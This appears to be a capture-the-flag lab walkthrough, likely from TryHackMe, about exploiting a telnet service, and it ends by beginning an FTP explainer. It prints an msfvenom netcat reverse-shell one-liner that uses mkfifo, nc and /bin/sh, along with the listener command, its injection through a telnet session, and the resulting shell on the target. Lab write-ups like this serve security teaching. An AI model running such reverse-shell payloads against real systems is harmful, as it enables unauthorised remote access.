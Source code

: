 What word does the generated payload start with?
```
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 94 bytes
mkfifo /tmp/qvfmt; nc 10.11.25.205 4444 0</tmp/qvfmt | /bin/sh >/tmp/qvfmt 2>&1; rm /tmp/qvfmt
```
It's **mkfifo**.

Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using:
```bash
$ nc -lvp [listening port]
```

What would the command look like for the listening port we selected in our payload?
```bash
$ nc -lvp 4444
```

Great! Now that's running, we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully- this will give us a shell on the target machine!
```bash
$ telnet 10.10.230.252 8012   

Trying 10.10.230.252...
Connected to 10.10.230.252.
Escape character is '^]'.
.RUN mkfifo /tmp/qvfmt; nc 10.11.25.205 4444 0</tmp/qvfmt | /bin/sh >/tmp/qvfmt 2>&1; rm /tmp/qvfmt
```

Success! What is the contents of flag.txt?
```bash
$ nc -lvp 4444                                                                                1 ⨯
listening on [any] 4444 ...
ls
10.10.128.76: inverse host lookup failed: Host name lookup failure
connect to [10.11.25.205] from (UNKNOWN) [10.10.128.76] 53498
flag.txt
cat flag.txt
THM{y0u_g0t_th3_t3ln3t_fl4g}
```
The flag is **THM{y0u_g0t_th3_t3ln3t_fl4g}**.



## Understanding FTP

#### FTP?
File Transfer Protocol (FTP) is, as the name suggests, a protocol used to allow remote transfer of files over a network. It uses a client-server model to do this, and- as we'll come on to later- relays commands and data in a very efficient way.

#### How does FTP work?
A typical FTP session operates using two channels:
- a command (sometimes called the control) channel.
- a data channel.
